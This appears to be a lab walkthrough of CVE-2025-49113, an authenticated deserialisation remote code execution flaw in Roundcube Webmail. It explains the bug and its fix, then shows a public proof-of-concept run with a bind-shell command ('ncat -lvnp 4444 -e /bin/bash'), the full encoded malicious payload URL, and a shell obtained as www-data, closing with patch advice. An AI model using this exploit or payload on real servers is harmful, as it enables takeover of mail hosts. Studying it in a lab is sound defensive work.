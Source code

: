<h1 align="center">Roundcube: CVE-2025-49113</h1>

## About RoundCube
Roudcube is a free and open-source webmail project. It is very feature-rich and available in over eighty languages. Although its built-in features are rich, they can be further expanded through the support of third-party plug-ins.

It mainly requires a web server with PHP support and an SQL server to run. Apache, Nginx, and Lighttpd, among others, can easily satisfy the web server requirements; MySQL, MariaDB, PostgreSQL, SQLite, and many others can satisfy the database requirements. This versatility makes Roundcube a very popular choice for webmail, especially among hosting providers.

Recently, a vulnerability was discovered in Roundcube Webmail; it affects all versions 1.5.x and 1.6.x before 1.5.10 and 1.6.11. This vulnerability allows remote code execution (RCE) by authenticated users; in other words, valid credentials for the webmail are enough for the attacker to execute commands on the host system. This vulnerability has a CVSS 3.x severity score of 9.9, i.e., critical. Roundcube has already released versions 1.5.10 and 1.6.11 and strongly recommends updating.

This room will cover what makes this vulnerability possible and demonstrate exploitation in a lab environment.

---

## Technical Background
> Serialisation is the process of converting an object, i.e., a class instance in PHP, Java, or Python, into a storable or transmittable format. This process is commonly used for storing objects in files or databases and for sending objects across the network, such as in APIs or cookies.

A deserialisation vulnerability is a security flaw that occurs when an application deserialises untrusted or tampered data. Deserialisation is the process of converting data from a serialised format, such as a byte stream or a string, back into a program object. If this process is done insecurely, an attacker can manipulate the serialised data to execute arbitrary code or even escalate privileges, among other malicious actions.

Kirill Firsov discovered a deserialisation vulnerability in Roundcube Webmail. They shared on their website the line of thought and research that led to discovery; it is an interesting read. The vulnerability is caused by the _from property in the upload.php not being thoroughly checked for safe values before deserialisation.

This vulnerability can be inferred in the commits for version 1.5.10 and for version 1.6.11. Even if you are not familiar with PHP, checking the commit lines and the comments will give you a good idea about how this vulnerability was fixed. In the screenshot below, you can easily infer that the additional lines now check if the URL parameter _from contains any unsafe characters.

![upload.php](https://github.com/user-attachments/assets/e45509eb-4be5-4043-93a5-8b28c2cbb225)

This vulnerability allows remote code execution via its insecure deserialisation. The attacker still needs to craft a payload so that its deserialisation leads to the desired outcome.

---

### Exploit Code
A proof of concept (PoC) exploit code is published by FearsOff on their GitHub repository. The easiest way to follow along would be to download the exploit code using git clone https://github.com/fearsoff-org/CVE-2025-49113. This is shown in the terminal below.

[PoC for CVE-2025-49113](https://github.com/fearsoff-org/CVE-2025-49113)

AttackBox Terminal
```
root@attackbox:~# git clone https://github.com/fearsoff-org/CVE-2025-49113
Cloning into 'CVE-2025-49113'...
remote: Enumerating objects: 8, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (7/7), done.
remote: Total 8 (delta 1), reused 8 (delta 1), pack-reused 0 (from 0)
Unpacking objects: 100% (8/8), 7.31 KiB | 1.83 MiB/s, done.
root@attackbox:~# cd CVE-2025-49113/
root@attackbox:~/CVE-2025-49113# ls
CVE-2025-49113.php  rc_install.sh  README.md
```
Note: The CVE-2025-49113.php is the PoC exploit. If you are a free user, the AttackBox does not have Internet access, and you need to use another means to get the above file into the AttackBox. One easy way would be to copy the file from its GitHub page, create a new file on the AttackBox using your preferred text editor, and save it with the extension .php.

The CVE-2025-49113.php executes the necessary steps to get the payload of your choice executed on the target server. After retrieving a CSRF token and a session cookie, this PoC PHP script logs in using the provided username and password. The core steps of this script lie in the following:

Craft a malicious serialised PHP object
Embed the crafted object in the _from parameter
Send a POST request to the upload.php endpoint using the malicious _from parameter
The received malicious parameter will be deserialised and executed on the server side.

Executing the Exploit
To run the PoC code, the following arguments need to be used: php CVE-2025-49113.php target_url username password command.

The target_url should be replaced by Roundcube Webmail’s URL, i.e., http://MACHINE_IP/roundcube
The username and password are the valid credentials to access the webmail
The command is the “payload” that you want to be executed on the target server
Let’s use ncat -lvnp 4444 -e /bin/bash to set a bind shell; this will make it easier to demonstrate the exploit and test whether it executed successfully. An example is shown in the terminal below.

AttackBox Terminal
```
root@attackbox:~/CVE-2025-49113# php CVE-2025-49113.php http://MACHINE_IP/roundcube ellieptic ChangeMe123 "ncat -lvnp 4444 -e /bin/bash"
### Roundcube ≤ 1.6.10 Post-Auth RCE via PHP Object Deserialization [CVE-2025-49113]

### Retrieving CSRF token and session cookie...

### Authenticating user: ellieptic

### Authentication successful

### Command to be executed: 
ncat -lvnp 4444 -e /bin/bash

### Injecting payload...

### End payload: http://MACHINE_IP/roundcube/?_from=edit-%21%C3%22%C3%3B%C3i%C3%3A%C30%C3%3B%C3O%C3%3A%C31%C36%C3%3A%C3%22%C3C%C3r%C3y%C3p%C3t%C3_%C3G%C3P%C3G%C3_%C3E%C3n%C3g%C3i%C3n%C3e%C3%22%C3%3A%C31%C3%3A%C3%7B%C3S%C3%3A%C32%C36%C3%3A%C3%22%C3%5C%C30%C30%C3C%C3r%C3y%C3p%C3t%C3_%C3G%C3P%C3G%C3_%C3E%C3n%C3g%C3i%C3n%C3e%C3%5C%C30%C30%C3_%C3g%C3p%C3g%C3c%C3o%C3n%C3f%C3%22%C3%3B%C3S%C3%3A%C33%C30%C3%3A%C3%22%C3n%C3c%C3a%C3t%C3+%C3-%C3l%C3v%C3n%C3p%C3+%C34%C34%C34%C34%C3+%C3-%C3e%C3+%C3%2F%C3b%C3i%C3n%C3%2F%C3b%C3a%C3s%C3h%C3%3B%C3%23%C3%22%C3%3B%C3%7D%C3i%C3%3A%C30%C3%3B%C3b%C3%3A%C30%C3%3B%C3%7D%C3%22%C3%3B%C3%7D%C3%7D%C3&_task=settings&_framed=1&_remote=1&_id=1&_uploadid=1&_unlock=1&_action=upload

### Payload injected successfully

### Executing payload...
```
It is worth mentioning that the exploit may take a minute or two to respond and sometimes the script gives an error message despite the payload successfully executing on the target. In one attempt, we got the following error message; however, the bind shell was set up successfully, and we could connect to it from the AttackBox.

AttackBox Terminal
```
PHP Warning:  file_get_contents(http://MACHINE_IP/roundcube/): failed to open stream: HTTP request failed! in /root/CVE-2025-49113/CVE-2025-49113.php on line 240
### Error: CSRF token not found in response body
```
On the AttackBox, you must connect to the bind shell listening on port 4444.

AttackBox Terminal
```
root@attackbox:~# nc MACHINE_IP 4444
pwd
/var/www/html/roundcube
whoami
www-data
```
---

> This vulnerability only requires valid webmail credentials and works with default installations. The exploit can be tricky to detect, considering it can easily pass as regular traffic. Considering the severity of the exploit, users running 1.5.x and 1.6.x are recommended to update to 1.5.10 and 1.6.11, respectively. If updating is infeasible for some reason, one mitigation would be to block upload.php.







